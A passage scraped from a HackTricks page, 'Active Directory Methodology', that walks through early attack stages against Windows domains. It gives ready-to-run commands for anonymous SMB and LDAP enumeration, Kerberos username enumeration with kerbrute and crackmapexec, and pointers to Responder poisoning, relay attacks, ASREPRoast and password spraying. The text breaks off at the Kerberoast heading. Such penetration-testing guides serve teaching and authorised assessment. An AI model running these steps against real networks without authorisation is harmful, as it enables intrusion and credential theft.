

Active Directory Methodology - HackTricks

[    HackTricks](https://book.hacktricks.xyz/)

[HackTricks](https://book.hacktricks.xyz/)
[Pentesting Methodology](https://book.hacktricks.xyz/pentesting-methodology)
[About the author](https://book.hacktricks.xyz/about-the-author)
[Exfiltration](https://book.hacktricks.xyz/exfiltration)

[Tunneling and Port Forwarding](https://book.hacktricks.xyz/tunneling-and-port-forwarding)

[Brute Force - CheatSheet](https://book.hacktricks.xyz/brute-force)
[Search Exploits](https://book.hacktricks.xyz/search-exploits)
Shells

[Shells (Linux, Windows, MSFVenom)](https://book.hacktricks.xyz/shells/shells)

Linux/Unix

[Checklist - Linux Privilege Escalation](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)

[Linux Privilege Escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation)

[Useful Linux Commands](https://book.hacktricks.xyz/linux-unix/useful-linux-commands)

[Linux Environment Variables](https://book.hacktricks.xyz/linux-unix/linux-environment-variables)

Windows

[Checklist - Local Windows Privilege Escalation](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)

[Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation)

[Active Directory Methodology](https://book.hacktricks.xyz/windows/active-directory-methodology)

[Abusing Active Directory ACLs/ACEs](https://book.hacktricks.xyz/windows/active-directory-methodology/acl-persistence-abuse)

[AD information in printers](https://book.hacktricks.xyz/windows/active-directory-methodology/ad-information-in-printers)

[ASREPRoast](https://book.hacktricks.xyz/windows/active-directory-methodology/asreproast)

[BloodHound](https://book.hacktricks.xyz/windows/active-directory-methodology/bloodhound)

[Constrained Delegation](https://book.hacktricks.xyz/windows/active-directory-methodology/constrained-delegation)

[Custom SSP](https://book.hacktricks.xyz/windows/active-directory-methodology/custom-ssp)

[DCShadow](https://book.hacktricks.xyz/windows/active-directory-methodology/dcshadow)

[DCSync](https://book.hacktricks.xyz/windows/active-directory-methodology/dcsync)

[DSRM Credentials](https://book.hacktricks.xyz/windows/active-directory-methodology/dsrm-credentials)

[Golden Ticket](https://book.hacktricks.xyz/windows/active-directory-methodology/golden-ticket)

[Kerberos Authentication](https://book.hacktricks.xyz/windows/active-directory-methodology/kerberos-authentication)

[Kerberoast](https://book.hacktricks.xyz/windows/active-directory-methodology/kerberoast)

[MSSQL Trusted Links](https://book.hacktricks.xyz/windows/active-directory-methodology/mssql-trusted-links)

[Over Pass the Hash/Pass the Key](https://book.hacktricks.xyz/windows/active-directory-methodology/over-pass-the-hash-pass-the-key)

[Pass the Ticket](https://book.hacktricks.xyz/windows/active-directory-methodology/pass-the-ticket)

[Password Spraying](https://book.hacktricks.xyz/windows/active-directory-methodology/password-spraying)

[Printers Spooler Service abuse](https://book.hacktricks.xyz/windows/active-directory-methodology/printers-spooler-service-abuse)

[Privileged Accounts and Token Privileges](https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges)

[Resource-based Constrained Delegation](https://book.hacktricks.xyz/windows/active-directory-methodology/resource-based-constrained-delegation)

[Security Descriptors](https://book.hacktricks.xyz/windows/active-directory-methodology/security-descriptors)

[Silver Ticket](https://book.hacktricks.xyz/windows/active-directory-methodology/silver-ticket)

[Skeleton Key](https://book.hacktricks.xyz/windows/active-directory-methodology/skeleton-key)

[Unconstrained Delegation](https://book.hacktricks.xyz/windows/active-directory-methodology/unconstrained-delegation)

[NTLM](https://book.hacktricks.xyz/windows/ntlm)

[Stealing Credentials](https://book.hacktricks.xyz/windows/stealing-credentials)

[Authentication, Credentials, Token privileges, UAC and EFS](https://book.hacktricks.xyz/windows/credentials)

[Basic CMD for Pentesters](https://book.hacktricks.xyz/windows/basic-cmd-for-pentesters)

[Basic PowerShell for Pentesters](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters)

[AV Bypass](https://book.hacktricks.xyz/windows/av-bypass)
Mobile Apps Pentesting

[Android APK Checklist](https://book.hacktricks.xyz/mobile-apps-pentesting/android-checklist)

[Android Applications Pentesting](https://book.hacktricks.xyz/mobile-apps-pentesting/android-app-pentesting)

Pentesting

[Pentesting Network](https://book.hacktricks.xyz/pentesting/pentesting-network)

[Pentesting JDWP - Java Debug Wire Protocol](https://book.hacktricks.xyz/pentesting/pentesting-jdwp-java-debug-wire-protocol)

[Pentesting Printers](https://book.hacktricks.xyz/pentesting/pentesting-printers)

[7/tcp/udp - Pentesting Echo](https://book.hacktricks.xyz/pentesting/7-tcp-udp-pentesting-echo)

[21 - Pentesting FTP](https://book.hacktricks.xyz/pentesting/pentesting-ftp)

[22 - Pentesting SSH/SFTP](https://book.hacktricks.xyz/pentesting/pentesting-ssh)

[23 - Pentesting Telnet](https://book.hacktricks.xyz/pentesting/pentesting-telnet)

[25,465,587 - Pentesting SMTP/s](https://book.hacktricks.xyz/pentesting/pentesting-smtp)

[43 - Pentesting WHOIS](https://book.hacktricks.xyz/pentesting/43-pentesting-whois)

[53 - Pentesting DNS](https://book.hacktricks.xyz/pentesting/pentesting-dns)

[69/UDP TFTP/Bittorrent-tracker](https://book.hacktricks.xyz/pentesting/69-udp-tftp)

[79 - Pentesting Finger](https://book.hacktricks.xyz/pentesting/pentesting-finger)

[80,443 - Pentesting Web Methodology](https://book.hacktricks.xyz/pentesting/pentesting-web)

[88tcp/udp - Pentesting Kerberos](https://book.hacktricks.xyz/pentesting/pentesting-kerberos-88)

[110,995 - Pentesting POP](https://book.hacktricks.xyz/pentesting/pentesting-pop)

[111/TCP/UDP - Pentesting Portmapper](https://book.hacktricks.xyz/pentesting/pentesting-rpcbind)

[113 - Pentesting Ident](https://book.hacktricks.xyz/pentesting/113-pentesting-ident)

[123/udp - Pentesting NTP](https://book.hacktricks.xyz/pentesting/pentesting-ntp)

[135, 593 - Penstesting MSRPC](https://book.hacktricks.xyz/pentesting/135-penstesting-msrpc)

[137,138,139 - Pentesting NetBios](https://book.hacktricks.xyz/pentesting/137-138-139-pentesting-netbios)

[139,445 - Pentesting SMB](https://book.hacktricks.xyz/pentesting/pentesting-smb)

[143,993 - Pentesting IMAP](https://book.hacktricks.xyz/pentesting/pentesting-imap)

[161,162,10161,10162/udp - Pentesting SNMP](https://book.hacktricks.xyz/pentesting/pentesting-snmp)

[194,6667,6660-7000 - Pentesting IRC](https://book.hacktricks.xyz/pentesting/pentesting-irc)

[264 - Pentesting Check Point FireWall-1](https://book.hacktricks.xyz/pentesting/pentesting-264-check-point-firewall-1)

[389, 636, 3268, 3269 - Pentesting LDAP](https://book.hacktricks.xyz/pentesting/pentesting-ldap)

[500/udp - Pentesting IPsec/IKE VPN](https://book.hacktricks.xyz/pentesting/ipsec-ike-vpn-pentesting)

[502 - Pentesting Modbus](https://book.hacktricks.xyz/pentesting/pentesting-modbus)

[512 - Pentesting Rexec](https://book.hacktricks.xyz/pentesting/512-pentesting-rexec)

[513 - Pentesting Rlogin](https://book.hacktricks.xyz/pentesting/pentesting-rlogin)

[514 - Pentesting Rsh](https://book.hacktricks.xyz/pentesting/pentesting-rsh)

[515 - Pentesting Line Printer Daemon (LPD)](https://book.hacktricks.xyz/pentesting/515-pentesting-line-printer-daemon-lpd)

[548 - Pentesting Apple Filing Protocol (AFP)](https://book.hacktricks.xyz/pentesting/584-pentesting-afp)

[554,8554 - Pentesting RTSP](https://book.hacktricks.xyz/pentesting/554-8554-pentesting-rtsp)

[623/UDP/TCP - IPMI](https://book.hacktricks.xyz/pentesting/623-udp-ipmi)

[631 - Internet Printing Protocol(IPP)](https://book.hacktricks.xyz/pentesting/pentesting-631-internet-printing-protocol-ipp)

[873 - Pentesting Rsync](https://book.hacktricks.xyz/pentesting/873-pentesting-rsync)

[1026 - Pentesting Rusersd](https://book.hacktricks.xyz/pentesting/1026-pentesting-rusersd)

[1098/1099 - Pentesting Java RMI](https://book.hacktricks.xyz/pentesting/1099-pentesting-java-rmi)

[1433 - Pentesting MSSQL - Microsoft SQL Server](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)

[1521,1522-1529 - Pentesting Oracle TNS Listener](https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener)

[1723 - Pentesting PPTP](https://book.hacktricks.xyz/pentesting/1723-pentesting-pptp)

[1883 - Pentesting MQTT (Mosquitto)](https://book.hacktricks.xyz/pentesting/1883-pentesting-mqtt-mosquitto)

[2049 - Pentesting NFS Service](https://book.hacktricks.xyz/pentesting/nfs-service-pentesting)

[2301,2381 - Pentesting Compaq/HP Insight Manager](https://book.hacktricks.xyz/pentesting/pentesting-compaq-hp-insight-manager)

[3260 - Pentesting ISCSI](https://book.hacktricks.xyz/pentesting/3260-pentesting-iscsi)

[3299 - Pentesting SAPRouter](https://book.hacktricks.xyz/pentesting/3299-pentesting-saprouter)

[3306 - Pentesting Mysql](https://book.hacktricks.xyz/pentesting/pentesting-mysql)

[3389 - Pentesting RDP](https://book.hacktricks.xyz/pentesting/pentesting-rdp)

[3632 - Pentesting distcc](https://book.hacktricks.xyz/pentesting/3632-pentesting-distcc)

[4369 - Pentesting Erlang Port Mapper Daemon (epmd)](https://book.hacktricks.xyz/pentesting/4369-pentesting-erlang-port-mapper-daemon-epmd)

[5353/UDP Multicast DNS (mDNS)](https://book.hacktricks.xyz/pentesting/5353-udp-multicast-dns-mdns)

[5432,5433 - Pentesting Postgresql](https://book.hacktricks.xyz/pentesting/pentesting-postgresql)

[5671,5672 - Pentesting AMQP](https://book.hacktricks.xyz/pentesting/5671-5672-pentesting-amqp)

[5800,5801,5900,5901 - Pentesting VNC](https://book.hacktricks.xyz/pentesting/pentesting-vnc)

[5984 - Pentesting CouchDB](https://book.hacktricks.xyz/pentesting/5984-pentesting-couchdb)

[5985,5986 - Pentesting WinRM](https://book.hacktricks.xyz/pentesting/5985-5986-pentesting-winrm)

[6000 - Pentesting X11](https://book.hacktricks.xyz/pentesting/6000-pentesting-x11)

[6379 - Pentesting Redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)

[8009 - Pentesting Apache JServ Protocol (AJP)](https://book.hacktricks.xyz/pentesting/8009-pentesting-apache-jserv-protocol-ajp)

[9042/9160 - Pentesting Cassandra](https://book.hacktricks.xyz/pentesting/cassandra)

[9100 - Pentesting Raw Printing (JetDirect, AppSocket, PDL-datastream)](https://book.hacktricks.xyz/pentesting/9100-pjl)

[9200 - Pentesting Elasticsearch](https://book.hacktricks.xyz/pentesting/9200-pentesting-elasticsearch)

[10000 - Pentesting Network Data Management Protocol (ndmp)](https://book.hacktricks.xyz/pentesting/10000-network-data-management-protocol-ndmp)

[11211 - Pentesting Memcache](https://book.hacktricks.xyz/pentesting/11211-memcache)

[15672 - Pentesting RabbitMQ Management](https://book.hacktricks.xyz/pentesting/15672-pentesting-rabbitmq-management)

[27017,27018 - Pentesting MongoDB](https://book.hacktricks.xyz/pentesting/27017-27018-mongodb)

[44818/UDP/TCP - Pentesting EthernetIP](https://book.hacktricks.xyz/pentesting/44818-ethernetip)

[47808/udp - Pentesting BACNet](https://book.hacktricks.xyz/pentesting/47808-udp-bacnet)

[50030,50060,50070,50075,50090 - Pentesting Hadoop](https://book.hacktricks.xyz/pentesting/50030-50060-50070-50075-50090-pentesting-hadoop)

Pentesting Web
[2FA Bypass](https://book.hacktricks.xyz/pentesting-web/2fa-bypass)

[Abusing hop-by-hop headers](https://book.hacktricks.xyz/pentesting-web/abusing-hop-by-hop-headers)

[Captcha Bypass](https://book.hacktricks.xyz/pentesting-web/captcha-bypass)

[Cache Poisoning and Cache Deception](https://book.hacktricks.xyz/pentesting-web/cache-deception)

[Clickjacking](https://book.hacktricks.xyz/pentesting-web/clickjacking)

[Client Side Template Injection (CSTI)](https://book.hacktricks.xyz/pentesting-web/client-side-template-injection-csti)

[Command Injection](https://book.hacktricks.xyz/pentesting-web/command-injection)

[Content Security Policy (CSP) Bypass](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass)

[Cookies Hacking](https://book.hacktricks.xyz/pentesting-web/hacking-with-cookies)

[CORS - Misconfigurations & Bypass](https://book.hacktricks.xyz/pentesting-web/cors-bypass)

[CRLF (%0D%0A) Injection](https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a)

[Cross-site WebSocket hijacking (CSWSH)](https://book.hacktricks.xyz/pentesting-web/cross-site-websocket-hijacking-cswsh)

[CSRF (Cross Site Request Forgery)](https://book.hacktricks.xyz/pentesting-web/csrf-cross-site-request-forgery)

[Dangling Markup - HTML scriptless injection](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection)

[Deserialization](https://book.hacktricks.xyz/pentesting-web/deserialization)

[Email Header Injection](https://book.hacktricks.xyz/pentesting-web/email-header-injection)

[File Inclusion/Path traversal](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

[File Upload](https://book.hacktricks.xyz/pentesting-web/file-upload)

[HTTP Request Smuggling / HTTP Desync Attack](https://book.hacktricks.xyz/pentesting-web/http-request-smuggling)

[IDOR](https://book.hacktricks.xyz/pentesting-web/idor)

[JWT Vulnerabilities (Json Web Tokens)](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens)

[NoSQL injection](https://book.hacktricks.xyz/pentesting-web/nosql-injection)
[LDAP Injection](https://book.hacktricks.xyz/pentesting-web/ldap-injection)

[OAuth to Account takeover](https://book.hacktricks.xyz/pentesting-web/oauth-to-account-takeover)

[Open Redirect](https://book.hacktricks.xyz/pentesting-web/open-redirect)
[Race Condition](https://book.hacktricks.xyz/pentesting-web/race-condition)

[Rate Limit Bypass](https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass)

[SQL Injection](https://book.hacktricks.xyz/pentesting-web/sql-injection)

[SSRF (Server Side Request Forgery)](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)

[SSTI (Server Side Template Injection)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

[Domain/Subdomain takeover](https://book.hacktricks.xyz/pentesting-web/domain-subdomain-takeover)

[Unicode Normalization vulnerability](https://book.hacktricks.xyz/pentesting-web/unicode-normalization-vulnerability)

[Web Tool - WFuzz](https://book.hacktricks.xyz/pentesting-web/web-tool-wfuzz)
[XPATH injection](https://book.hacktricks.xyz/pentesting-web/xpath-injection)

[XSLT Server Side Injection (Extensible Stylesheet Languaje Transformations)](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-languaje-transformations)

[XXE - XEE - XML External Entity](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)

[XSS (Cross Site Scripting)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)

[XSSI (Cross-Site Script Inclusion)](https://book.hacktricks.xyz/pentesting-web/xssi-cross-site-script-inclusion)

[XS-Search](https://book.hacktricks.xyz/pentesting-web/xs-search)
Physical attacks

[Physical Attacks](https://book.hacktricks.xyz/physical-attacks/physical-attacks)

[Escaping from KIOSKs](https://book.hacktricks.xyz/physical-attacks/escaping-from-gui-applications)

Exploiting

[Linux Exploiting (Basic) (SPA)](https://book.hacktricks.xyz/exploiting/linux-exploiting-basic-esp)

[Exploiting Tools](https://book.hacktricks.xyz/exploiting/tools)

[Windows Exploiting (Basic Guide - OSCP lvl)](https://book.hacktricks.xyz/exploiting/windows-exploiting-basic-guide-oscp-lvl)

[Reversing](https://book.hacktricks.xyz/exploiting/reversing)
Forensics
[Malware Analysis](https://book.hacktricks.xyz/forensics/malware-analysis)

[Memory dump analysis](https://book.hacktricks.xyz/forensics/memory-dump-analysis)

[Pcaps analysis](https://book.hacktricks.xyz/forensics/pcaps-analysis)

[Volatility - Examples](https://book.hacktricks.xyz/forensics/volatility-examples)

[Basic Forensics (ESP)](https://book.hacktricks.xyz/forensics/basic-forensics-esp)

Crypto

[Electronic Code Book (ECB)](https://book.hacktricks.xyz/crypto/electronic-code-book-ecb)

[Cipher Block Chaining CBC-MAC](https://book.hacktricks.xyz/crypto/cipher-block-chaining-cbc-mac-priv)

[Padding Oracle](https://book.hacktricks.xyz/crypto/padding-oracle-priv)

[RC4 - Encrypt&Decrypt](https://book.hacktricks.xyz/crypto/rc4-encrypt-and-decrypt)

[Crypto CTFs Tricks](https://book.hacktricks.xyz/crypto/crypto-ctfs-tricks)
BACKDOORS
[Merlin](https://book.hacktricks.xyz/backdoors/merlin)
[Empire](https://book.hacktricks.xyz/backdoors/empire)
[Salseo](https://book.hacktricks.xyz/backdoors/salseo)
[ICMPsh](https://book.hacktricks.xyz/backdoors/icmpsh)
Stego
[Stego Tricks](https://book.hacktricks.xyz/stego/stego-tricks)
[Esoteric languages](https://book.hacktricks.xyz/stego/esoteric-languages)
MISC

[Basic Python](https://book.hacktricks.xyz/misc/basic-python)

[Other Big References](https://book.hacktricks.xyz/misc/references)
TODO
[More Tools](https://book.hacktricks.xyz/todo/more-tools)
[MISC](https://book.hacktricks.xyz/todo/misc)
[Pentesting DNS](https://book.hacktricks.xyz/todo/pentesting-dns)
[Burp Suite](https://book.hacktricks.xyz/burp-suite)
[Other Web Tricks](https://book.hacktricks.xyz/other-web-tricks)
[Interesting HTTP](https://book.hacktricks.xyz/interesting-http)
[Emails Vulnerabilities](https://book.hacktricks.xyz/emails-vulns)

[Bug Bounties Methodology](https://book.hacktricks.xyz/bug-bounties-methodology)

[Cloud security review](https://book.hacktricks.xyz/cloud-security-review)
[Android Forensics](https://book.hacktricks.xyz/android-forensics)
[TR-069](https://book.hacktricks.xyz/tr-069)

[6881/udp - Pentesting BitTorrent](https://book.hacktricks.xyz/6881-udp-pentesting-bittorrent)

[CTF Write-ups](https://book.hacktricks.xyz/ctf-write-ups)

[1911 - Pentesting fox](https://book.hacktricks.xyz/1911-pentesting-fox)

[Online Platforms with API](https://book.hacktricks.xyz/online-platforms-with-api)

[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='currentColor' viewBox='0 0 1067 769' xmlns='http://www.w3.org/2000/svg' stroke='none' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1554'%3e%3cg data-evernote-id='1555' class='js-evernote-checked'%3e%3cpath d='M480.026 640.677c17.205 0 31.2 13.997 31.2 31.194s-13.995 31.193-31.2 31.193c-17.197 0-31.193-13.996-31.193-31.193 0-17.197 13.996-31.194 31.193-31.194m489.93-193.226c-17.203 0-31.2-13.998-31.2-31.195 0-17.204 13.997-31.2 31.2-31.2 17.198 0 31.194 13.996 31.194 31.2 0 17.197-13.996 31.195-31.193 31.195m0-127.804c-53.269 0-96.609 43.34-96.609 96.609 0 10.373 1.723 20.702 5.123 30.741L559.328 616.879c-18.132-26.128-47.521-41.617-79.302-41.617-36.821 0-70.391 21.065-86.63 54.003L106.68 478.109c-30.288-15.927-52.965-65.817-50.56-111.223 1.248-23.687 9.438-42.071 21.897-49.17 7.916-4.493 17.436-4.099 27.526 1.188l1.916 1.01c75.96 40.022 324.6 170.981 335.063 175.844 16.157 7.47 25.14 10.5 52.659-2.547l513.958-267.3c7.53-2.844 16.315-10.062 16.315-21.023 0-15.205-15.72-21.199-15.765-21.199-29.218-14.018-74.163-35.054-117.987-55.57C798.033 84.26 691.861 34.547 645.23 10.132c-40.253-21.072-72.655-3.311-78.432.282l-11.227 5.555C345.727 119.743 64.898 258.826 48.911 268.553 20.278 285.973 2.547 320.679.252 363.768c-3.586 68.304 31.261 139.506 81.069 165.634l303.172 156.354c6.83 47.306 47.55 82.725 95.532 82.725 52.78 0 95.808-42.546 96.603-95.14L910.541 492.38c16.93 13.233 37.92 20.486 59.416 20.486 53.268 0 96.61-43.341 96.61-96.61s-43.342-96.61-96.61-96.61' fill-rule='evenodd' data-evernote-id='1556' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e) Powered by**GitBook**](https://www.gitbook.com/?utm_source=content&utm_medium=trademark&utm_campaign=hacktricks)

# Active Directory Methodology

If you want to **know **about my **latest modifications**/**additions or you have any suggestion for HackTricks or PEASS**,** join the **[**PEASS & HackTricks telegram group here**](https://t.me/peass)**.**

#

Basic overview

Active Directory allows network administrators to create and manage domains, users, and objects within a network. For example, an admin can create a group of users and give them specific access privileges to certain directories on the server. As a network grows, Active Directory provides a way to organize a large number of users into logical groups and subgroups, while providing access control at each level.

The Active Directory structure includes three main tiers: 1) domains, 2) trees, and 3) forests. Several objects (users or devices) that all use the same database may be grouped in to a single domain. Multiple domains can be combined into a single group called a tree. Multiple trees may be grouped into a collection called a forest. Each one of these levels can be assigned specific access rights and communication privileges.

Main concepts of an Active Directory:

1. **Directory **– Contains all the information about the objects of the Active directory

2. **Object **– An object references almost anything inside the directory (a user, group, shared folder...)

3. **Domain **– The objects of the directory are contained inside the domain. Inside a "forest" more than one domain can exist and each of them will have their own objects collection.

4. **Tree **– Group of domains with the same root. Example: *dom.local, email.com.local, www.dom.local*

5. **Forest **– The forest is the highest level of the organization hierarchy and is composed by a group of trees. The trees are connected by trust relationships.

Active Directory provides several different services, which fall under the umbrella of "Active Directory Domain Services," or AD DS. These services include:

1. **Domain Services** – stores centralized data and manages communication between users and domains; includes login authentication and search functionality

2. **Certificate Services** – creates, distributes, and manages secure certificates

3. **Lightweight Directory Services** – supports directory-enabled applications using the open (LDAP) protocol

4. **Directory Federation Services** – provides single-sign-on (SSO) to authenticate a user in multiple web applications in a single session

5. **Rights Management** – protects copyrighted information by preventing unauthorized use and distribution of digital content

6. **DNS Service** – Used to resolve domain names.

AD DS is included with Windows Server (including Windows Server 10) and is designed to manage client systems. While systems running the regular version of Windows do not have the administrative features of AD DS, they do support Active Directory. This means any Windows computer can connect to a Windows workgroup, provided the user has the correct login credentials.**From: **[**https://techterms.com/definition/active_directory**](https://techterms.com/definition/active_directory)**​**

##

**Kerberos Authentication**

To learn how to **attack an AD** you need to **understand **really good the **Kerberos authentication process**.[**Read this page if you still don't know how it works.**](https://book.hacktricks.xyz/windows/active-directory-methodology/kerberos-authentication)**​**

#

Recon Active Directory (No creds/sessions)

If you just have access to an AD environment but you don't have any credentials/sessions you could:

- **Pentest the network:** Scan the network, find machines and open ports and try to **exploit vulnerabilities** or **extract credentials** from them (for example,**  **[**printers could be very interesting targets**](https://book.hacktricks.xyz/windows/active-directory-methodology/ad-information-in-printers)). Take a look to the General**  **[**Pentesting Methodology**](https://book.hacktricks.xyz/pentesting-methodology)**  **to find more information about how to do this.
- **Check for null and Guest access on smb services **(this won't work on modern Windows versions):
    - `enum4linux -a -u "" -p "" <DC IP> && enum4linux -a -u "guest" -p "" <DC IP> `
    - `smbmap -u "" -p "" -P 445 -H <DC IP> && smbmap -u "guest" -p "" -P 445 -H <DC IP> `
    - `smbclient -U '%' -L //<DC IP> && smbclient -U 'guest%' -L // `
    - ​[**A more detailed guide on how to enumerate a SMB server can be found here.**](https://book.hacktricks.xyz/pentesting/pentesting-smb)**​**
- **Enumerate Ldap**:
    - `nmap -n -sV --script "ldap* and not brute" -p 389 <DC IP> `
    - ​[**A more detailed guide on how to enumerate LDAP can be found here.**](https://book.hacktricks.xyz/pentesting/pentesting-ldap)**​**
- **Poison the network**
    - Gather credentials [**impersonating services with Responder**](https://book.hacktricks.xyz/pentesting/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks)**​**
    - Access host by**  **[**abusing the relay attack**](https://book.hacktricks.xyz/pentesting/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks#relay-attack)**.**
    - Gather credentials **exposing **[**fake UPnP services with evil-S**](https://book.hacktricks.xyz/pentesting/pentesting-network/spoofing-ssdp-and-upnp-devices)**​**[**SDP**](https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856)**​**
- **OSINT**: Try to **extract possible usernames** from services (mainly web) inside the domain environments and also from the publicly available web pages of the company. If you find the complete names of company workers, you could try different AD **username conventions (**[**read this**](https://activedirectorypro.com/active-directory-user-naming-convention/)**)**. The most common conventions are: *NameSurname*, *Name.Surname*, *NamSur* (3letters of each), *Nam.Sur*, *NSurname*, *N.Surname*, *SurnameName*, *Surname.Name*, *SurnameN*, *Surname.N*, 3 *random letters and 3 random numbers* (abc123). You could also try **statistically most used usernames**: https://github.com/insidetrust/statistically-likely-usernames**Read the following Username enumeration section to learn how to find if a username is valid or not.**

##

User enumeration

When an **invalid username is requested** the server will respond using the **Kerberos error** code ***KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN***, allowing us to determine that the username was invalid. **Valid usernames** will illicit either the **TGT in a AS-REP** response **or **the error ***KRB5KDC_ERR_PREAUTH_REQUIRED***, indicating that the user is required to perform pre-authentication.

Copy

1nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN'" <IP>

2Nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=/root/Desktop/usernames.txt <IP>

3msf> use auxiliary/gather/kerberos_enumusers
4./kerbrute_linux_amd64 userenum -d lab.ropnop.com usernames.txt
5crackmapexec smb dominio.es -u '' -p '' --users | awk '{print $4}' | uniq

6enum4linux -U 10.10.10.161 | grep 'user:' | sed 's/user:\[//g' | sed 's/\]//g' | awk '{print $1}'

You could also use the** impacket script of ASREPRoast **to enumerate valid usernames.

##

Knowing one or several usernames

Ok, so you know you have already a valid username but no passwords...Then try:

- **​**[**ASREPRoast**](https://book.hacktricks.xyz/windows/active-directory-methodology/asreproast): If a user **doesn't have** the attribute ***DONT_REQ_PREAUTH ***you can **request a AS_REP message** for that user that will contain some data encrypted by a derivation of the password of the user.
- **​**[**Password Spraying**](https://book.hacktricks.xyz/windows/active-directory-methodology/password-spraying): Let's **try **the most **common passwords **with each of the discovered users, maybe some user is using a bad password (keep in mind the password policy)
- A final option if the accounts cannot be locked is the**  **[**traditional bruteforce**](https://book.hacktricks.xyz/windows/active-directory-methodology/password-spraying)** (be careful)**.

#

Enumerating Active Directory (Some creds/Session)

For this phase you need to have **compromised the credentials or a session of a valid domain account.**

##

Enumeration

If you have some valid credentials or a shell as a domain user, **you should remember that the options given before are still options to compromise other users**. Regarding [**ASREPRoast **](https://book.hacktricks.xyz/windows/active-directory-methodology/asreproast)you can now find every possible vulnerable user, and regarding**  **[**Password Spraying**](https://book.hacktricks.xyz/windows/active-directory-methodology/password-spraying) you can get a **list of all the usernames** and try the password of the compromised account (if you know it). It's very easy to obtain all the domain usernames from Windows (`net user /domain ` ,`Get-DomainUser `or` wmic useraccount get name,sid `). In **linux **you can use: `GetADUsers.py -all -dc-ip 10.10.10.110 domain.com/username `

Having compromised an account is a** big step to start compromising the whole domain**, because you are going to be able to start the **Active Directory Enumeration:**

- You could use some[Windows binaries from the CMD to perform a basic recon](https://book.hacktricks.xyz/windows/basic-cmd-for-pentesters#domain-info), but using [powershell for recon](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters) will probably be stealthier, and you could even [**use powerview**](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters/powerview)** to extract more detailed information**. Always** learn what a CMD or powershell/powerview command does** before executing it, this way you will know** how stealth are you being**.
- Another amazing tool for recon in an active directory is [**BloodHound**](https://book.hacktricks.xyz/windows/active-directory-methodology/bloodhound). It is **not very stealthy **(depending on the collection methods you use), but** if you don't care** about that, you should totally give it a **try**.
- If you are using **Linux**, you could also [enumerate the domain using **pywerview**](https://github.com/the-useless-one/pywerview)**.**
- You could also **try **[**https://github.com/tomcarver16/ADSearch**](https://github.com/tomcarver16/ADSearch)**​**

**Even if this Enumeration section looks small this is the most important part of all. Access the links (mainly the one of cmd, powershell, powerview and BloodHound), learn how to enumerate a domain and practice until you feel comfortable. During an assessment, this will be the key moment to find your way to DA or to decide that nothing can be done. **

##

**Kerberoast**

